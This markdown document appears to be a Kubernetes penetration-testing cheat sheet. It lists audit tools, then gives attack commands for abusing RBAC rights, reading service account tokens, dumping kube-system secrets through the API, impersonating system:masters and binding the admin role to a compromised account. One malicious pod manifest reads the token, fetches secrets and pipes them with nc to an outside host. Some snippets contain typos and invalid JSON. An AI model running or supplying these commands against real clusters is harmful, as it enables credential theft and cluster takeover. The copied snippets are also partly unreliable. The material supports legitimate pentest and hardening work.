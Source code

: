 # Kubernetes

> Kubernetes is an open-source container-orchestration system for automating application deployment, scaling, and management. It was originally designed by Google, and is now maintained by the Cloud Native Computing Foundation.

## Summary 

- [Tools](#tools)
- [RBAC Configuration](#rbac-configuration)
    - [Listing Secrets](#listing-secrets)
    - [Access Any Resource or Verb](#access-any-resource-or-verb)
    - [Pod Creation](#pod-creation)
    - [Privilege to Use Pods/Exec](#privilege-to-use-pods-exec)
    - [Privilege to Get/Patch Rolebindings](#privilege-to-get-patch-rolebindings)
    - [Impersonating a Privileged Account](#impersonating-a-privileged-account)
- [Privileged Service Account Token](#privileged-service-account-token)
- [Interesting endpoints to reach](#interesting-endpoints-to-reach)
- [API addresses that you should know](#api-addresses-that-you-should-know)
- [References](#references)

## Tools

* [kubeaudit](https://github.com/Shopify/kubeaudit) - Audit Kubernetes clusters against common security concerns
* [kubesec.io](https://kubesec.io/) - Security risk analysis for Kubernetes resources
* [kube-bench](https://github.com/aquasecurity/kube-bench) - Checks whether Kubernetes is deployed securely by running [CIS Kubernetes Benchmark](https://www.cisecurity.org/benchmark/kubernetes/)
* [kube-hunter](https://github.com/aquasecurity/kube-hunter) - Hunt for security weaknesses in Kubernetes clusters 
* [katacoda](https://katacoda.com/courses/kubernetes) - Learn Kubernetes using interactive broser-based scenarios

## Service Token

> As it turns out, when pods (a Kubernetes abstraction for a group of containers) are created they are automatically assigned the default service account, and a new volume is created containing the token for accessing the Kubernetes API. That volume is then mounted into all the containers in the pod.

```powershell
$ cat /var/run/secrets/kubernetes.io/serviceaccount

# kubectl makes cluster compromise trivial as it will use that serviceaccount token without additional prompting
```

## RBAC Configuration

### Listing Secrets

An attacker that gains access to list secrets in the cluster can use the following curl commands to get all secrets in "kube-system" namespace.

```powershell
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

### Access Any Resource or Verb

```powershell
resources:
- '*'
verbs:
- '*'
```

### Pod Creation

Check your right with `kubectl get role system:controller:bootstrap-signer -n kube-system -o yaml`.
Then create a malicious pod.yaml file.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

Then `kubectl apply -f malicious-pod.yaml`

### Privilege to Use Pods/Exec

```powershell
kubectl exec -it <POD NAME> -n <PODS NAMESPACE> –- sh
```

### Privilege to Get/Patch Rolebindings

The purpose of this JSON file is to bind the admin "CluserRole" to the compromised service account. 
Create a malicious RoleBinging.json file.

```powershell
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespcaes": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
            "name": "sa-comp"
            "namespace": "default"
        }
    ]
}
```

```powershell
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings -d @malicious-RoleBinging.json
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

### Impersonating a Privileged Account

```powershell
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" -H "Impersonate-Group: system:masters" -H "Impersonate-User: null" -H "Accept: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

## Privileged Service Account Token

```powershell
$ cat /run/secrets/kubernetes.io/serviceaccount/token
$ curl -k -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/secrets/
```

## Interesting endpoints to reach

```powershell
# List Pods
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/pods/

# List secrets
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/secrets/

# List deployments
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip:<port>/apis/extensions/v1beta1/namespaces/default/deployments

# List daemonsets
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip:<port>/apis/extensions/v1beta1/namespaces/default/daemonsets
```


## API addresses that you should know 

*(External network visibility)*

### cAdvisor

```powershell
curl -k https://<IP Address>:4194
```

### Insecure API server

```powershell
curl -k https://<IP Address>:8080
```

### Secure API Server

```powershell
curl -k https://<IP Address>:(8|6)443/swaggerapi
curl -k https://<IP Address>:(8|6)443/healthz
curl -k https://<IP Address>:(8|6)443/api/v1
```

### etcd API

```powershell
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```

### Kubelet API

```powershell
curl -k https://<IP address>:10250
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```

### kubelet (Read only)

```powershell
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```


## References

- [Kubernetes Pentest Methodology Part 1 - by Or Ida on August 8, 2019](https://securityboulevard.com/2019/08/kubernetes-pentest-methodology-part-1)
- [Kubernetes Pentest Methodology Part 2 - by Or Ida on September 5, 2019](https://securityboulevard.com/2019/09/kubernetes-pentest-methodology-part-2)
- [Capturing all the flags in BSidesSF CTF by pwning our infrastructure - Hackernoon](https://hackernoon.com/capturing-all-the-flags-in-bsidessf-ctf-by-pwning-our-infrastructure-3570b99b4dd0)